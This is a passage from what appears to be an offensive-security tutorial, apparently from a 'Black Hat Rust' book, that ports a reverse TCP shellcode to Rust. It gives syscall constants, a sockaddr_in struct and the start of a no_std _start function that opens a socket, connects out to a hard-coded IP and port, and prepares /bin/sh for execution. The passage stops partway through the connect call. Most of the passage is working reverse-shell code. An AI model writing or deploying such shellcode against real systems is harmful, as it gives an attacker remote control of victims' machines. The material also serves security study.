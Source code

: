 🤯 🥴

I think I don't need further explanations about why a higher-level language is needed for advanced shellcodes.

Without further ado, let's start to port it to Rust.

First, our constants:

**[ch_08/reverse_tcp/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/reverse_tcp/src/main.rs)**
```rust
const PORT: u16 = 0x6A1F; // 8042
const IP: u32 = 0x0100007f; // 127.0.0.1

const SYS_DUP2: usize = 33;
const SYS_SOCKET: usize = 41;
const SYS_CONNECT: usize = 42;
const SYS_EXECVE: usize = 59;

const AF_INET: usize = 2;
const SOCK_STREAM: usize = 1;
const IPPROTO_IP: usize = 0;

const STDIN: usize = 0;
const STDOUT: usize = 1;
const STDERR: usize = 2;
```

Then, the `sockaddr_in` struct copied from `<netinet/in.h>`:
```rust
#[repr(C)]
struct sockaddr_in {
    sin_family: u16,
    sin_port: u16,
    sin_addr: in_addr,
    sin_zero: [u8; 8],
}

#[repr(C)]
struct in_addr {
    s_addr: u32,
}
```

And finally, logic of our program, which take some parts of the `shell` shellcode.
```rust
#[no_mangle]
fn _start() -> ! {
    let shell: &str = "/bin/sh\x00";
    let argv: [*const &str; 2] = [&shell, core::ptr::null()];

    let socket_addr = sockaddr_in {
        sin_family: AF_INET as u16,
        sin_port: PORT,
        sin_addr: in_addr { s_addr: IP },
        sin_zero: [0; 8], // initialize an emtpy array
    };
    let socket_addr_size = core::mem::size_of::<sockaddr_in>();

    unsafe {
        let socket_fd = syscall3(SYS_SOCKET, AF_INET, SOCK_STREAM, IPPROTO_IP);
        syscall3(
            SYS_CONNECT,
            socket_fd,
            &socket_addr as *const sockaddr_in as usize,
            socket_addr_size as usize,
```